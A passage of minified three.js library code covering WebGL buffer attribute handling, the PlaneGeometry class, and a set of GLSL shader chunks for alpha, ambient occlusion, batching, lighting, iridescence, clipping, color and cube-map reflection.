s;if(t.bindBuffer(n,o),t.bufferData(n,i,r),e.onUploadCallback(),i instanceof Float32Array)s=t.FLOAT;else if(i instanceof Uint16Array)s=e.isFloat16BufferAttribute?t.HALF_FLOAT:t.UNSIGNED_SHORT;else if(i instanceof Int16Array)s=t.SHORT;else if(i instanceof Uint32Array)s=t.UNSIGNED_INT;else if(i instanceof Int32Array)s=t.INT;else if(i instanceof Int8Array)s=t.BYTE;else if(i instanceof Uint8Array)s=t.UNSIGNED_BYTE;else{if(!(i instanceof Uint8ClampedArray))throw new Error(\"THREE.WebGLAttributes: Unsupported buffer data format: \"+i);s=t.UNSIGNED_BYTE}return{buffer:o,type:s,bytesPerElement:i.BYTES_PER_ELEMENT,version:e.version,size:a}}(n,i));else if(r.version<n.version){if(r.size!==n.array.byteLength)throw new Error(\"THREE.WebGLAttributes: The size of the buffer attribute's array buffer does not match the original size. Resizing buffer attributes is not supported.\");!function(e,n,i){const r=n.array,a=n._updateRange,o=n.updateRanges;if(t.bindBuffer(i,e),-1===a.count&&0===o.length&&t.bufferSubData(i,0,r),0!==o.length){for(let e=0,n=o.length;e<n;e++){const n=o[e];t.bufferSubData(i,n.start*r.BYTES_PER_ELEMENT,r,n.start,n.count)}n.clearUpdateRanges()}-1!==a.count&&(t.bufferSubData(i,a.offset*r.BYTES_PER_ELEMENT,r,a.offset,a.count),a.count=-1),n.onUploadCallback()}(r.buffer,n,i),r.version=n.version}}}}class xr extends Pi{constructor(t=1,e=1,n=1,i=1){super(),this.type=\"PlaneGeometry\",this.parameters={width:t,height:e,widthSegments:n,heightSegments:i};const r=t/2,a=e/2,o=Math.floor(n),s=Math.floor(i),l=o+1,c=s+1,h=t/o,u=e/s,d=[],p=[],f=[],m=[];for(let t=0;t<c;t++){const e=t*u-a;for(let n=0;n<l;n++){const i=n*h-r;p.push(i,-e,0),f.push(0,0,1),m.push(n/o),m.push(1-t/s)}}for(let t=0;t<s;t++)for(let e=0;e<o;e++){const n=e+l*t,i=e+l*(t+1),r=e+1+l*(t+1),a=e+1+l*t;d.push(n,i,a),d.push(i,r,a)}this.setIndex(d),this.setAttribute(\"position\",new Mi(p,3)),this.setAttribute(\"normal\",new Mi(f,3)),this.setAttribute(\"uv\",new Mi(m,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}static fromJSON(t){return new xr(t.width,t.height,t.widthSegments,t.heightSegments)}}const br={alphahash_fragment:\"#ifdef USE_ALPHAHASH\\n\\tif ( diffuseColor.a < getAlphaHashThreshold( vPosition ) ) discard;\\n#endif\",alphahash_pars_fragment:\"#ifdef USE_ALPHAHASH\\n\\tconst float ALPHA_HASH_SCALE = 0.05;\\n\\tfloat hash2D( vec2 value ) {\\n\\t\\treturn fract( 1.0e4 * sin( 17.0 * value.x + 0.1 * value.y ) * ( 0.1 + abs( sin( 13.0 * value.y + value.x ) ) ) );\\n\\t}\\n\\tfloat hash3D( vec3 value ) {\\n\\t\\treturn hash2D( vec2( hash2D( value.xy ), value.z ) );\\n\\t}\\n\\tfloat getAlphaHashThreshold( vec3 position ) {\\n\\t\\tfloat maxDeriv = max(\\n\\t\\t\\tlength( dFdx( position.xyz ) ),\\n\\t\\t\\tlength( dFdy( position.xyz ) )\\n\\t\\t);\\n\\t\\tfloat pixScale = 1.0 / ( ALPHA_HASH_SCALE * maxDeriv );\\n\\t\\tvec2 pixScales = vec2(\\n\\t\\t\\texp2( floor( log2( pixScale ) ) ),\\n\\t\\t\\texp2( ceil( log2( pixScale ) ) )\\n\\t\\t);\\n\\t\\tvec2 alpha = vec2(\\n\\t\\t\\thash3D( floor( pixScales.x * position.xyz ) ),\\n\\t\\t\\thash3D( floor( pixScales.y * position.xyz ) )\\n\\t\\t);\\n\\t\\tfloat lerpFactor = fract( log2( pixScale ) );\\n\\t\\tfloat x = ( 1.0 - lerpFactor ) * alpha.x + lerpFactor * alpha.y;\\n\\t\\tfloat a = min( lerpFactor, 1.0 - lerpFactor );\\n\\t\\tvec3 cases = vec3(\\n\\t\\t\\tx * x / ( 2.0 * a * ( 1.0 - a ) ),\\n\\t\\t\\t( x - 0.5 * a ) / ( 1.0 - a ),\\n\\t\\t\\t1.0 - ( ( 1.0 - x ) * ( 1.0 - x ) / ( 2.0 * a * ( 1.0 - a ) ) )\\n\\t\\t);\\n\\t\\tfloat threshold = ( x < ( 1.0 - a ) )\\n\\t\\t\\t? ( ( x < a ) ? cases.x : cases.y )\\n\\t\\t\\t: cases.z;\\n\\t\\treturn clamp( threshold , 1.0e-6, 1.0 );\\n\\t}\\n#endif\",alphamap_fragment:\"#ifdef USE_ALPHAMAP\\n\\tdiffuseColor.a *= texture2D( alphaMap, vAlphaMapUv ).g;\\n#endif\",alphamap_pars_fragment:\"#ifdef USE_ALPHAMAP\\n\\tuniform sampler2D alphaMap;\\n#endif\",alphatest_fragment:\"#ifdef USE_ALPHATEST\\n\\t#ifdef ALPHA_TO_COVERAGE\\n\\tdiffuseColor.a = smoothstep( alphaTest, alphaTest + fwidth( diffuseColor.a ), diffuseColor.a );\\n\\tif ( diffuseColor.a == 0.0 ) discard;\\n\\t#else\\n\\tif ( diffuseColor.a < alphaTest ) discard;\\n\\t#endif\\n#endif\",alphatest_pars_fragment:\"#ifdef USE_ALPHATEST\\n\\tuniform float alphaTest;\\n#endif\",aomap_fragment:\"#ifdef USE_AOMAP\\n\\tfloat ambientOcclusion = ( texture2D( aoMap, vAoMapUv ).r - 1.0 ) * aoMapIntensity + 1.0;\\n\\treflectedLight.indirectDiffuse *= ambientOcclusion;\\n\\t#if defined( USE_CLEARCOAT ) \\n\\t\\tclearcoatSpecularIndirect *= ambientOcclusion;\\n\\t#endif\\n\\t#if defined( USE_SHEEN ) \\n\\t\\tsheenSpecularIndirect *= ambientOcclusion;\\n\\t#endif\\n\\t#if defined( USE_ENVMAP ) && defined( STANDARD )\\n\\t\\tfloat dotNV = saturate( dot( geometryNormal, geometryViewDir ) );\\n\\t\\treflectedLight.indirectSpecular *= computeSpecularOcclusion( dotNV, ambientOcclusion, material.roughness );\\n\\t#endif\\n#endif\",aomap_pars_fragment:\"#ifdef USE_AOMAP\\n\\tuniform sampler2D aoMap;\\n\\tuniform float aoMapIntensity;\\n#endif\",batching_pars_vertex:\"#ifdef USE_BATCHING\\n\\t#if ! defined( GL_ANGLE_multi_draw )\\n\\t#define gl_DrawID _gl_DrawID\\n\\tuniform int _gl_DrawID;\\n\\t#endif\\n\\tuniform highp sampler2D batchingTexture;\\n\\tuniform highp usampler2D batchingIdTexture;\\n\\tmat4 getBatchingMatrix( const in float i ) {\\n\\t\\tint size = textureSize( batchingTexture, 0 ).x;\\n\\t\\tint j = int( i ) * 4;\\n\\t\\tint x = j % size;\\n\\t\\tint y = j / size;\\n\\t\\tvec4 v1 = texelFetch( batchingTexture, ivec2( x, y ), 0 );\\n\\t\\tvec4 v2 = texelFetch( batchingTexture, ivec2( x + 1, y ), 0 );\\n\\t\\tvec4 v3 = texelFetch( batchingTexture, ivec2( x + 2, y ), 0 );\\n\\t\\tvec4 v4 = texelFetch( batchingTexture, ivec2( x + 3, y ), 0 );\\n\\t\\treturn mat4( v1, v2, v3, v4 );\\n\\t}\\n\\tfloat getIndirectIndex( const in int i ) {\\n\\t\\tint size = textureSize( batchingIdTexture, 0 ).x;\\n\\t\\tint x = i % size;\\n\\t\\tint y = i / size;\\n\\t\\treturn float( texelFetch( batchingIdTexture, ivec2( x, y ), 0 ).r );\\n\\t}\\n#endif\\n#ifdef USE_BATCHING_COLOR\\n\\tuniform sampler2D batchingColorTexture;\\n\\tvec3 getBatchingColor( const in float i ) {\\n\\t\\tint size = textureSize( batchingColorTexture, 0 ).x;\\n\\t\\tint j = int( i );\\n\\t\\tint x = j % size;\\n\\t\\tint y = j / size;\\n\\t\\treturn texelFetch( batchingColorTexture, ivec2( x, y ), 0 ).rgb;\\n\\t}\\n#endif\",batching_vertex:\"#ifdef USE_BATCHING\\n\\tmat4 batchingMatrix = getBatchingMatrix( getIndirectIndex( gl_DrawID ) );\\n#endif\",begin_vertex:\"vec3 transformed = vec3( position );\\n#ifdef USE_ALPHAHASH\\n\\tvPosition = vec3( position );\\n#endif\",beginnormal_vertex:\"vec3 objectNormal = vec3( normal );\\n#ifdef USE_TANGENT\\n\\tvec3 objectTangent = vec3( tangent.xyz );\\n#endif\",bsdfs:\"float G_BlinnPhong_Implicit( ) {\\n\\treturn 0.25;\\n}\\nfloat D_BlinnPhong( const in float shininess, const in float dotNH ) {\\n\\treturn RECIPROCAL_PI * ( shininess * 0.5 + 1.0 ) * pow( dotNH, shininess );\\n}\\nvec3 BRDF_BlinnPhong( const in vec3 lightDir, const in vec3 viewDir, const in vec3 normal, const in vec3 specularColor, const in float shininess ) {\\n\\tvec3 halfDir = normalize( lightDir + viewDir );\\n\\tfloat dotNH = saturate( dot( normal, halfDir ) );\\n\\tfloat dotVH = saturate( dot( viewDir, halfDir ) );\\n\\tvec3 F = F_Schlick( specularColor, 1.0, dotVH );\\n\\tfloat G = G_BlinnPhong_Implicit( );\\n\\tfloat D = D_BlinnPhong( shininess, dotNH );\\n\\treturn F * ( G * D );\\n} // validated\",iridescence_fragment:\"#ifdef USE_IRIDESCENCE\\n\\tconst mat3 XYZ_TO_REC709 = mat3(\\n\\t\\t 3.2404542, -0.9692660,  0.0556434,\\n\\t\\t-1.5371385,  1.8760108, -0.2040259,\\n\\t\\t-0.4985314,  0.0415560,  1.0572252\\n\\t);\\n\\tvec3 Fresnel0ToIor( vec3 fresnel0 ) {\\n\\t\\tvec3 sqrtF0 = sqrt( fresnel0 );\\n\\t\\treturn ( vec3( 1.0 ) + sqrtF0 ) / ( vec3( 1.0 ) - sqrtF0 );\\n\\t}\\n\\tvec3 IorToFresnel0( vec3 transmittedIor, float incidentIor ) {\\n\\t\\treturn pow2( ( transmittedIor - vec3( incidentIor ) ) / ( transmittedIor + vec3( incidentIor ) ) );\\n\\t}\\n\\tfloat IorToFresnel0( float transmittedIor, float incidentIor ) {\\n\\t\\treturn pow2( ( transmittedIor - incidentIor ) / ( transmittedIor + incidentIor ));\\n\\t}\\n\\tvec3 evalSensitivity( float OPD, vec3 shift ) {\\n\\t\\tfloat phase = 2.0 * PI * OPD * 1.0e-9;\\n\\t\\tvec3 val = vec3( 5.4856e-13, 4.4201e-13, 5.2481e-13 );\\n\\t\\tvec3 pos = vec3( 1.6810e+06, 1.7953e+06, 2.2084e+06 );\\n\\t\\tvec3 var = vec3( 4.3278e+09, 9.3046e+09, 6.6121e+09 );\\n\\t\\tvec3 xyz = val * sqrt( 2.0 * PI * var ) * cos( pos * phase + shift ) * exp( - pow2( phase ) * var );\\n\\t\\txyz.x += 9.7470e-14 * sqrt( 2.0 * PI * 4.5282e+09 ) * cos( 2.2399e+06 * phase + shift[ 0 ] ) * exp( - 4.5282e+09 * pow2( phase ) );\\n\\t\\txyz /= 1.0685e-7;\\n\\t\\tvec3 rgb = XYZ_TO_REC709 * xyz;\\n\\t\\treturn rgb;\\n\\t}\\n\\tvec3 evalIridescence( float outsideIOR, float eta2, float cosTheta1, float thinFilmThickness, vec3 baseF0 ) {\\n\\t\\tvec3 I;\\n\\t\\tfloat iridescenceIOR = mix( outsideIOR, eta2, smoothstep( 0.0, 0.03, thinFilmThickness ) );\\n\\t\\tfloat sinTheta2Sq = pow2( outsideIOR / iridescenceIOR ) * ( 1.0 - pow2( cosTheta1 ) );\\n\\t\\tfloat cosTheta2Sq = 1.0 - sinTheta2Sq;\\n\\t\\tif ( cosTheta2Sq < 0.0 ) {\\n\\t\\t\\treturn vec3( 1.0 );\\n\\t\\t}\\n\\t\\tfloat cosTheta2 = sqrt( cosTheta2Sq );\\n\\t\\tfloat R0 = IorToFresnel0( iridescenceIOR, outsideIOR );\\n\\t\\tfloat R12 = F_Schlick( R0, 1.0, cosTheta1 );\\n\\t\\tfloat T121 = 1.0 - R12;\\n\\t\\tfloat phi12 = 0.0;\\n\\t\\tif ( iridescenceIOR < outsideIOR ) phi12 = PI;\\n\\t\\tfloat phi21 = PI - phi12;\\n\\t\\tvec3 baseIOR = Fresnel0ToIor( clamp( baseF0, 0.0, 0.9999 ) );\\t\\tvec3 R1 = IorToFresnel0( baseIOR, iridescenceIOR );\\n\\t\\tvec3 R23 = F_Schlick( R1, 1.0, cosTheta2 );\\n\\t\\tvec3 phi23 = vec3( 0.0 );\\n\\t\\tif ( baseIOR[ 0 ] < iridescenceIOR ) phi23[ 0 ] = PI;\\n\\t\\tif ( baseIOR[ 1 ] < iridescenceIOR ) phi23[ 1 ] = PI;\\n\\t\\tif ( baseIOR[ 2 ] < iridescenceIOR ) phi23[ 2 ] = PI;\\n\\t\\tfloat OPD = 2.0 * iridescenceIOR * thinFilmThickness * cosTheta2;\\n\\t\\tvec3 phi = vec3( phi21 ) + phi23;\\n\\t\\tvec3 R123 = clamp( R12 * R23, 1e-5, 0.9999 );\\n\\t\\tvec3 r123 = sqrt( R123 );\\n\\t\\tvec3 Rs = pow2( T121 ) * R23 / ( vec3( 1.0 ) - R123 );\\n\\t\\tvec3 C0 = R12 + Rs;\\n\\t\\tI = C0;\\n\\t\\tvec3 Cm = Rs - T121;\\n\\t\\tfor ( int m = 1; m <= 2; ++ m ) {\\n\\t\\t\\tCm *= r123;\\n\\t\\t\\tvec3 Sm = 2.0 * evalSensitivity( float( m ) * OPD, float( m ) * phi );\\n\\t\\t\\tI += Cm * Sm;\\n\\t\\t}\\n\\t\\treturn max( I, vec3( 0.0 ) );\\n\\t}\\n#endif\",bumpmap_pars_fragment:\"#ifdef USE_BUMPMAP\\n\\tuniform sampler2D bumpMap;\\n\\tuniform float bumpScale;\\n\\tvec2 dHdxy_fwd() {\\n\\t\\tvec2 dSTdx = dFdx( vBumpMapUv );\\n\\t\\tvec2 dSTdy = dFdy( vBumpMapUv );\\n\\t\\tfloat Hll = bumpScale * texture2D( bumpMap, vBumpMapUv ).x;\\n\\t\\tfloat dBx = bumpScale * texture2D( bumpMap, vBumpMapUv + dSTdx ).x - Hll;\\n\\t\\tfloat dBy = bumpScale * texture2D( bumpMap, vBumpMapUv + dSTdy ).x - Hll;\\n\\t\\treturn vec2( dBx, dBy );\\n\\t}\\n\\tvec3 perturbNormalArb( vec3 surf_pos, vec3 surf_norm, vec2 dHdxy, float faceDirection ) {\\n\\t\\tvec3 vSigmaX = normalize( dFdx( surf_pos.xyz ) );\\n\\t\\tvec3 vSigmaY = normalize( dFdy( surf_pos.xyz ) );\\n\\t\\tvec3 vN = surf_norm;\\n\\t\\tvec3 R1 = cross( vSigmaY, vN );\\n\\t\\tvec3 R2 = cross( vN, vSigmaX );\\n\\t\\tfloat fDet = dot( vSigmaX, R1 ) * faceDirection;\\n\\t\\tvec3 vGrad = sign( fDet ) * ( dHdxy.x * R1 + dHdxy.y * R2 );\\n\\t\\treturn normalize( abs( fDet ) * surf_norm - vGrad );\\n\\t}\\n#endif\",clipping_planes_fragment:\"#if NUM_CLIPPING_PLANES > 0\\n\\tvec4 plane;\\n\\t#ifdef ALPHA_TO_COVERAGE\\n\\t\\tfloat distanceToPlane, distanceGradient;\\n\\t\\tfloat clipOpacity = 1.0;\\n\\t\\t#pragma unroll_loop_start\\n\\t\\tfor ( int i = 0; i < UNION_CLIPPING_PLANES; i ++ ) {\\n\\t\\t\\tplane = clippingPlanes[ i ];\\n\\t\\t\\tdistanceToPlane = - dot( vClipPosition, plane.xyz ) + plane.w;\\n\\t\\t\\tdistanceGradient = fwidth( distanceToPlane ) / 2.0;\\n\\t\\t\\tclipOpacity *= smoothstep( - distanceGradient, distanceGradient, distanceToPlane );\\n\\t\\t\\tif ( clipOpacity == 0.0 ) discard;\\n\\t\\t}\\n\\t\\t#pragma unroll_loop_end\\n\\t\\t#if UNION_CLIPPING_PLANES < NUM_CLIPPING_PLANES\\n\\t\\t\\tfloat unionClipOpacity = 1.0;\\n\\t\\t\\t#pragma unroll_loop_start\\n\\t\\t\\tfor ( int i = UNION_CLIPPING_PLANES; i < NUM_CLIPPING_PLANES; i ++ ) {\\n\\t\\t\\t\\tplane = clippingPlanes[ i ];\\n\\t\\t\\t\\tdistanceToPlane = - dot( vClipPosition, plane.xyz ) + plane.w;\\n\\t\\t\\t\\tdistanceGradient = fwidth( distanceToPlane ) / 2.0;\\n\\t\\t\\t\\tunionClipOpacity *= 1.0 - smoothstep( - distanceGradient, distanceGradient, distanceToPlane );\\n\\t\\t\\t}\\n\\t\\t\\t#pragma unroll_loop_end\\n\\t\\t\\tclipOpacity *= 1.0 - unionClipOpacity;\\n\\t\\t#endif\\n\\t\\tdiffuseColor.a *= clipOpacity;\\n\\t\\tif ( diffuseColor.a == 0.0 ) discard;\\n\\t#else\\n\\t\\t#pragma unroll_loop_start\\n\\t\\tfor ( int i = 0; i < UNION_CLIPPING_PLANES; i ++ ) {\\n\\t\\t\\tplane = clippingPlanes[ i ];\\n\\t\\t\\tif ( dot( vClipPosition, plane.xyz ) > plane.w ) discard;\\n\\t\\t}\\n\\t\\t#pragma unroll_loop_end\\n\\t\\t#if UNION_CLIPPING_PLANES < NUM_CLIPPING_PLANES\\n\\t\\t\\tbool clipped = true;\\n\\t\\t\\t#pragma unroll_loop_start\\n\\t\\t\\tfor ( int i = UNION_CLIPPING_PLANES; i < NUM_CLIPPING_PLANES; i ++ ) {\\n\\t\\t\\t\\tplane = clippingPlanes[ i ];\\n\\t\\t\\t\\tclipped = ( dot( vClipPosition, plane.xyz ) > plane.w ) && clipped;\\n\\t\\t\\t}\\n\\t\\t\\t#pragma unroll_loop_end\\n\\t\\t\\tif ( clipped ) discard;\\n\\t\\t#endif\\n\\t#endif\\n#endif\",clipping_planes_pars_fragment:\"#if NUM_CLIPPING_PLANES > 0\\n\\tvarying vec3 vClipPosition;\\n\\tuniform vec4 clippingPlanes[ NUM_CLIPPING_PLANES ];\\n#endif\",clipping_planes_pars_vertex:\"#if NUM_CLIPPING_PLANES > 0\\n\\tvarying vec3 vClipPosition;\\n#endif\",clipping_planes_vertex:\"#if NUM_CLIPPING_PLANES > 0\\n\\tvClipPosition = - mvPosition.xyz;\\n#endif\",color_fragment:\"#if defined( USE_COLOR_ALPHA )\\n\\tdiffuseColor *= vColor;\\n#elif defined( USE_COLOR )\\n\\tdiffuseColor.rgb *= vColor;\\n#endif\",color_pars_fragment:\"#if defined( USE_COLOR_ALPHA )\\n\\tvarying vec4 vColor;\\n#elif defined( USE_COLOR )\\n\\tvarying vec3 vColor;\\n#endif\",color_pars_vertex:\"#if defined( USE_COLOR_ALPHA )\\n\\tvarying vec4 vColor;\\n#elif defined( USE_COLOR ) || defined( USE_INSTANCING_COLOR ) || defined( USE_BATCHING_COLOR )\\n\\tvarying vec3 vColor;\\n#endif\",color_vertex:\"#if defined( USE_COLOR_ALPHA )\\n\\tvColor = vec4( 1.0 );\\n#elif defined( USE_COLOR ) || defined( USE_INSTANCING_COLOR ) || defined( USE_BATCHING_COLOR )\\n\\tvColor = vec3( 1.0 );\\n#endif\\n#ifdef USE_COLOR\\n\\tvColor *= color;\\n#endif\\n#ifdef USE_INSTANCING_COLOR\\n\\tvColor.xyz *= instanceColor.xyz;\\n#endif\\n#ifdef USE_BATCHING_COLOR\\n\\tvec3 batchingColor = getBatchingColor( getIndirectIndex( gl_DrawID ) );\\n\\tvColor.xyz *= batchingColor.xyz;\\n#endif\",common:\"#define PI 3.141592653589793\\n#define PI2 6.283185307179586\\n#define PI_HALF 1.5707963267948966\\n#define RECIPROCAL_PI 0.3183098861837907\\n#define RECIPROCAL_PI2 0.15915494309189535\\n#define EPSILON 1e-6\\n#ifndef saturate\\n#define saturate( a ) clamp( a, 0.0, 1.0 )\\n#endif\\n#define whiteComplement( a ) ( 1.0 - saturate( a ) )\\nfloat pow2( const in float x ) { return x*x; }\\nvec3 pow2( const in vec3 x ) { return x*x; }\\nfloat pow3( const in float x ) { return x*x*x; }\\nfloat pow4( const in float x ) { float x2 = x*x; return x2*x2; }\\nfloat max3( const in vec3 v ) { return max( max( v.x, v.y ), v.z ); }\\nfloat average( const in vec3 v ) { return dot( v, vec3( 0.3333333 ) ); }\\nhighp float rand( const in vec2 uv ) {\\n\\tconst highp float a = 12.9898, b = 78.233, c = 43758.5453;\\n\\thighp float dt = dot( uv.xy, vec2( a,b ) ), sn = mod( dt, PI );\\n\\treturn fract( sin( sn ) * c );\\n}\\n#ifdef HIGH_PRECISION\\n\\tfloat precisionSafeLength( vec3 v ) { return length( v ); }\\n#else\\n\\tfloat precisionSafeLength( vec3 v ) {\\n\\t\\tfloat maxComponent = max3( abs( v ) );\\n\\t\\treturn length( v / maxComponent ) * maxComponent;\\n\\t}\\n#endif\\nstruct IncidentLight {\\n\\tvec3 color;\\n\\tvec3 direction;\\n\\tbool visible;\\n};\\nstruct ReflectedLight {\\n\\tvec3 directDiffuse;\\n\\tvec3 directSpecular;\\n\\tvec3 indirectDiffuse;\\n\\tvec3 indirectSpecular;\\n};\\n#ifdef USE_ALPHAHASH\\n\\tvarying vec3 vPosition;\\n#endif\\nvec3 transformDirection( in vec3 dir, in mat4 matrix ) {\\n\\treturn normalize( ( matrix * vec4( dir, 0.0 ) ).xyz );\\n}\\nvec3 inverseTransformDirection( in vec3 dir, in mat4 matrix ) {\\n\\treturn normalize( ( vec4( dir, 0.0 ) * matrix ).xyz );\\n}\\nmat3 transposeMat3( const in mat3 m ) {\\n\\tmat3 tmp;\\n\\ttmp[ 0 ] = vec3( m[ 0 ].x, m[ 1 ].x, m[ 2 ].x );\\n\\ttmp[ 1 ] = vec3( m[ 0 ].y, m[ 1 ].y, m[ 2 ].y );\\n\\ttmp[ 2 ] = vec3( m[ 0 ].z, m[ 1 ].z, m[ 2 ].z );\\n\\treturn tmp;\\n}\\nbool isPerspectiveMatrix( mat4 m ) {\\n\\treturn m[ 2 ][ 3 ] == - 1.0;\\n}\\nvec2 equirectUv( in vec3 dir ) {\\n\\tfloat u = atan( dir.z, dir.x ) * RECIPROCAL_PI2 + 0.5;\\n\\tfloat v = asin( clamp( dir.y, - 1.0, 1.0 ) ) * RECIPROCAL_PI + 0.5;\\n\\treturn vec2( u, v );\\n}\\nvec3 BRDF_Lambert( const in vec3 diffuseColor ) {\\n\\treturn RECIPROCAL_PI * diffuseColor;\\n}\\nvec3 F_Schlick( const in vec3 f0, const in float f90, const in float dotVH ) {\\n\\tfloat fresnel = exp2( ( - 5.55473 * dotVH - 6.98316 ) * dotVH );\\n\\treturn f0 * ( 1.0 - fresnel ) + ( f90 * fresnel );\\n}\\nfloat F_Schlick( const in float f0, const in float f90, const in float dotVH ) {\\n\\tfloat fresnel = exp2( ( - 5.55473 * dotVH - 6.98316 ) * dotVH );\\n\\treturn f0 * ( 1.0 - fresnel ) + ( f90 * fresnel );\\n} // validated\",cube_uv_reflection_fragment:\"#ifdef ENVMAP_TYPE_CUBE_UV\\n\\t#define cubeUV_minMipLevel 4.0\\n\\t#define cubeUV_minTileSize 16.0\\n\\tfloat getFace( vec3 direction ) {\\n\\t\\tvec3 absDirection = abs( direction );\\n\\t\\tfloat face = - 1.0;\\n\\t\\tif ( absDirection.x > absDirection.z ) {\\n\\t\\t\\tif ( absDirection.x > absDirection.y )\\n\\t\\t\\t\\tface = direction.x > 0.0 ? 0.0 : 3.0;\\n\\t\\t\\telse\\n\\t\\t\\t\\tface = direction.y > 0.0 ? 1.0 : 4.0;\\n\\t\\t} else {\\n\\t\\t\\tif ( absDirection.z > absDirection.y )\\n\\t\\t\\t\\tface = direction.z > 0.0 ? 2.0 : 5.0;\\n\\t\\t\\telse\\n\\t\\t\\t\\tface = direction.y > 0.0 ? 1.0 : 4.0;\\n\\t\\t}\\n\\t\\treturn face;\\n\\t}\\n\\tvec2 getUV( vec3 direction, float face ) {\\n\\t\\tvec2 uv;\\n\\t\\tif ( face == 0.0 ) {\\n\\t\\t\\tuv = vec2( direction.z, direction.y ) / abs( direction.x );\\n\\t\\t} else if ( face == 1.0 ) {\\n\\t\\t\\tuv = vec2( - direction.x, - direction.z ) / abs( direction.y );\\n\\t\\t} else if ( face == 2.0 ) {\\n\\t\\t\\tuv = vec2( - direction.x, direction.y ) / abs( direction.z );\\n\\t\\t} else if ( face == 3.0 ) {\\n\\t\\t\\tuv = vec2( - direction.z, direction.y ) / abs( direction.x );\\n\\t\\t} else if ( face == 4.0 ) {\\n\\t\\t\\tuv = vec2( - direction.x, direction.z ) / abs( direction.y );\\n\\t\\t} else {\\n\\t\\t\\tuv = vec2( direction.x, direction.y ) / abs( direction.z );\\n\\t\\t}\\n\\t\\treturn 0.5 * ( uv + 1.0 );\\n\\t}\\n\\tvec3 bilinearCubeUV( sampler2D envMap, vec3 direction, float mipInt ) {\\n\\t\\tfloat face = getFace( direction );\\n\\t\\tfloat filterInt = max( cubeUV_minMipLevel - mipInt, 0.0 );\\n\\t\\tmipInt = max( mipInt, cubeUV_minMipLevel );\\n\\t\\tfloat faceSize = exp2( mipInt );\\n\\t\\thighp vec2 uv = getUV( direction, face ) * ( faceSize - 2.0 ) + 1.0;\\n\\t\\tif ( face > 2.0 ) {\\n\\t\\t\\tuv.y += faceSize;\\n\\t\\t\\tface -= 3.0;\\n\\t\\t}\\n\\t\\tuv.x += face * faceSize;\\n\\t\\tuv.x += filterInt * 3.0 * cubeUV_minTileSize;\\n\\t\\tuv.y += 4.0 * ( exp2( CUBEUV_MAX_MIP ) - faceSize );\\n\\t\\tuv.x *= CUBEUV_TEXEL_WIDTH;\\n\\t\\tuv.y *= CUBEUV_TEXEL_HEIGHT;\\n\\t\\t#ifdef texture2DGradEXT\\n\\t\\t\\treturn texture2DGradEXT( envMap, uv, vec2( 0.0 ), vec2( 0.0 ) ).rgb;\\n\\t\\t#else\\n\\t\\t\\treturn texture2D( envMap, uv ).rgb;\\n\\t\\t#endif\\n\\t}\\n\\t#define cubeUV_r0 1.0\\n\\t#define cubeUV_m0 - 2.0\\n\\t#define cubeUV_r1 0.8\\n\\t#define cubeUV_m1 - 1.0\\n\\t#define cubeUV_r4 0.4\\n\\t#define cubeUV_m4 2.0\\n\\t#define cubeUV_r5 0.305\\n\\t#define cubeUV_m5 3.0\\n\\t#define cubeUV_r6 0.21\\n\\t#define cubeUV_m6 4.0\\n\\tfloat roughnessToMip( float roughness ) {\\n\\t\\tfloat mip = 0.0;\\n\\t\\tif ( roughness >= cubeUV_r1 ) {\\n\\t\\t\\tmip = ( cubeUV_r0 - roughness ) * ( cubeUV_m1 - cubeUV_m0 ) / ( cubeUV_r0 - cubeUV_r1 ) + cubeUV_m0;\\n\\t\\t} else if ( roughness >= cubeUV_r4 ) {\\n\\t\\t\\tmip = ( cubeUV_r1 - roughness ) * ( cubeUV_m4 - cubeUV_m1 ) / ( cubeUV_r1 - cubeUV_r4 ) + cubeUV_m1;\\n\\t\\t} else if ( roughness >= cubeUV_r5 ) {\\n\\t\\t\\tmip = ( cubeUV_r4 - roughness ) * ( cubeUV_m5 - cubeUV_m4 ) / ( cubeUV_r4 - cubeUV_r5 ) + cubeUV_m4;\\n\\t\\t} else if ( roughness >= cubeUV_r6 ) {\\n\\t\\t\\tmip = ( cubeUV_r5 - roughness ) * ( cubeUV_m6 - cubeUV_m5 ) / ( cubeUV_r5 - cubeUV_r6 ) + cubeUV_m5;\\n\\t\\t} else {\\n\\t\\t\\tmip = - 2.0 * log2( 1.16 * roughness );\\t\\t}\\n\\t\\treturn mip;\\n\\t}\\n\\tvec4 textureCubeUV( sampler2D envMap, vec3 sampleDir, float roughness ) {\\n\\t\\tfloat mip = clamp( roughnessToMip( roughness ), cubeUV_m0, CUBEUV_MAX_MIP );\\n\\t\\tfloat mipF = fract( mip );\\n\\t\\tfloat mipInt = floor( mip );\\n\\t\\tvec3 color0 = bilinearCubeUV( envMap, sampleDir, mipInt );\\n\\t\\tif ( mipF == 0.0 ) {\\n\\t\\t\\treturn vec4( color0, 1.0 );\\n\\t\\t} else {\\n\\t\\t\\tvec3 color1 = bilinearCubeUV( envMap, sampleDir, mipInt + 1.0 );\\n\\t\\t\\treturn vec4( mix( color0, color1, mipF ), 1.0 );\\n\\t\\t}\\n\\t}\\n#endif\",defaultnormal_vertex:\"vec3 transformedNormal = objectNormal;\\n#ifdef USE_TANGENT\\n\\tvec3 transformedTangent = objectTangent;\\n#endif\\n#ifdef USE_BATCHING\\n\\tmat3 bm = mat3( batchingMatrix );\\n\\ttransformedNormal /= vec3( dot( bm[ 0 ], bm[ 0 ] ), dot( bm[ 1 ], bm[ 1 ] ), dot( bm[ 2 ], bm[ 2 ] ) );\\n\\ttransformedNormal = bm * transformedNormal;\\n\\t#ifdef USE_TANGENT\\n\\t\\ttransformedTangent = bm * transformedTangent;\\n\\t#endif\\n#endif\\n#ifdef USE_INSTANCING\\n\\tmat3 im = mat3( instanceMatrix );\\n\\ttransformedNormal /= vec3( dot( im[ 0 ], im[ 0 ] ), dot( im[ 1 ], im[ 1 ] ), dot( im[ 2 ], im[ 2 ] ) );\\n\\ttransformedNormal = im * transformedNormal;\\n\\t#ifdef USE_TANGENT\\n\\t\\ttransformedTangent = im * transformedTangent;\\n\\t#endif\\n#endif\\ntransformedNormal = normalMatrix * transformedNormal;\\n#ifdef FLIP_SIDED\\n\\ttransformedNormal = - transformedNormal;\\n#endif\\n#ifdef USE_TANGENT\\n\\ttransformedTangent = ( modelViewMatrix * vec4( transformedTangent, 0.0 ) ).xyz;\\n\\t#ifdef FLIP_SIDED\\n\\t\\ttransformedTangent = - transformedTangent;\\n\\t#endif\\n#endif\",displacementmap_pars_vertex:\"#ifdef USE_DISPLACEMENTMAP\\n\\tuniform sampler2D displacementMap;\\n\\tuniform float displacementScale;\\n\\tuniform float 